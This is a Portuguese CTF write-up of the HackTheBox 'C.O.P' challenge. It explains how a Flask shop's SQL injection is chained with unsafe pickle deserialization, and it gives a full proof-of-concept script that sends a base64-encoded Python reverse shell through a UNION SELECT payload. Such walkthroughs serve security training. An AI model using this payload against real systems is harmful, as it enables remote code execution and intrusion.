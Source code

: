 # C. O. P

> O C.O.P (Culto dos Pickles) começou uma loja web para vender sua mercadoria. Acreditamos que os fundos estejam sendo usados para operações ilícitas de propaganda baseadas em pickles! Investigue o site e tente encontrar uma forma de interceptar a operação deles!

A descrição por si só dá uma dica muito importante para a resolução desse desafio. Podemos baixar o código-fonte da aplicação e ver que se trata de uma aplicação web em Python utilizando Flask. Temos apenas dois endpoints, sendo que um trás a listagem dos produtos cadastrados:

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengescopindex.png" alt=""><figcaption><p>C. O. P - Página inicial da aplicação</p></figcaption></figure>

E o outro, `/view/:id` trás informações sobre um produto com base no id informado.

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengescopview.png" alt=""><figcaption><p>C. O. P - Detalhes do produto</p></figcaption></figure>

Podemos começar analisando o código-fonte do último endpoint, visto que ele permite a entrada de dados.

{% code title="application/blueprints/routes.py" overflow="wrap" lineNumbers="true" %}
```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

...SNIP

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
{% endcode %}

Acima está o arquivo que define as rotas da aplicação. Observe que ao acessar a rota `/view`, a aplicação chama uma função `shop.select_by_id`, definida  no arquivo `models`:

{% code title="application/models.py" lineNumbers="true" %}
```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
{% endcode %}

Perceba que a aplicação está inserindo a entrada do usuário diretamente na query SQL, ou seja, podemos tentar injetar SQL. Ao enviar uma requisição ao endpoint `/view/1'`, a aplicação retorna um erro 500, o que possivelmente indica que a entrada foi injetada na query provocando um erro. Ao consultar `/view/1'--`, a aplicação não retorna erro algum, visto que a consulta foi processada da seguinte forma:

```sql
SELECT data FROM products WHERE id='1'--'
```

Isto é, fazendo uma consulta em produtos a qual o id do produto seja 1 e comentando o restante da query que é inserido pelo back-end. Porém, apenas com esse SQL injection não somos capazes de fazer nada. Vejamos como essa rota é renderizada no template:

<pre class="language-html" data-title="application/templates/item.html" data-overflow="wrap" data-line-numbers><code class="lang-html"><strong>...SNIP
</strong><strong>&#x3C;!-- Product section-->
</strong>&#x3C;section class="py-5">
    &#x3C;div class="container px-4 px-lg-5 my-5">
        &#x3C;div class="row gx-4 gx-lg-5 align-items-center">
            {% set item = product | pickle %} &#x3C;!-- repare nessa linha -->
            &#x3C;div class="col-md-6">&#x3C;img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." />&#x3C;/div>
            &#x3C;div class="col-md-6">
                &#x3C;h1 class="display-5 fw-bolder">{{ item.name }}&#x3C;/h1>
                &#x3C;div class="fs-5 mb-5">
                    &#x3C;span>£{{ item.price }}&#x3C;/span>
                &#x3C;/div>
                &#x3C;p class="lead">{{ item.description }}&#x3C;/p>
            &#x3C;/div>
        &#x3C;/div>
    &#x3C;/div>
&#x3C;/section>
SNIP...
</code></pre>

A instrução na linha destacada está utilizando uma funcionalidade de [filtro do Flask](https://flask.palletsprojects.com/en/2.3.x/templating/#registering-filters) que deve ser definida pela aplicação. A definição desse filtro pode ser encontrada no arquivo `app.py`:

```python
...SNIP
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
SNIP...
```

Perceba que esse filtro é processado por uma função do [pickle](https://docs.python.org/pt-br/3/library/pickle.html), uma biblioteca de serialização do Python. A função é responsável por decodificar a entrada em base64 e então serializar ela através do pickle. Entretanto, buscando sobre essa biblioteca, foi possível [encontrar uma vulnerabilidade](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) nela que permite execução de código remotamente. Para isso, precisamos criar uma classe com o payload da RCE, usar a função `dumps` da biblioteca pickle para desserializar um objeto dessa classe e então passar esse objeto desserializado codificado em base64 para a aplicação.&#x20;

{% code title="poc.py" lineNumbers="true" %}
```python
import pickle
import requests
from base64 import b64encode, urlsafe_b64encode
import os

host = "http://cop.htb:1337" # troque pelo endereço do host vulnerável

class RCE:
    def __reduce__(self):
        ip = "127.0.0.1" # troque pelo seu endereço
        port = 1337 # troque por uma porta escutando em sua máquina
        reverse_shell = f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
        cmd = (f'echo "{b64encode(reverse_shell.encode()).decode()}" | base64 -d | sh')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE()) # serializando o objeto RCE com o pickle
    response = requests.get(url=f"{host}/view/' UNION SELECT \"{urlsafe_b64encode(pickled).decode()}\"--")
    print(response.text)
```
{% endcode %}

O script acima define uma classe RCE que, quando desserializada pelo pickle na aplicação vulnerável, realiza uma conexão de shell reversa. Dessa forma, podemos serializar um objeto dessa classe e tentar enviar ao endpoint vulnerável da aplicação. Abusando da falha de SQL injection, podemos criar um UNION SELECT com o payload, e ele será desserializado pela aplicação, resultando na conexão reversa à nossa máquina. Agora, com o shell, basta lermos o conteúdo do arquivo `flag.txt` para obter a flag.
